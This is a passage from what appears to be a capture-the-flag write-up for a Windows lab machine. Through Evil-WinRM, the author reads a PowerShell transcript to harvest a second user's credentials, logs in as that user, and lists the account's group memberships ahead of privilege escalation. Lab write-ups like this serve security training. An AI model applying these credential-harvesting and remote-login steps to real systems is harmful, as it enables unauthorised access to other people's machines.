 Lets read the file

```
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/creds.png)

I got another credential for `ryan` user.

Now Lets login with the `ryan` user using `evil-winrm`
![alt text](https://raw.githubusercontent.com/VitthalS/VitthalS.github.io/master/writeups/resolute/note.png)

I got a note.txt which includes hint to escalate our privileges.

Lets grab the permission group to which user belongs.
```
*Evil-WinRM* PS C:\Users\ryan\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
```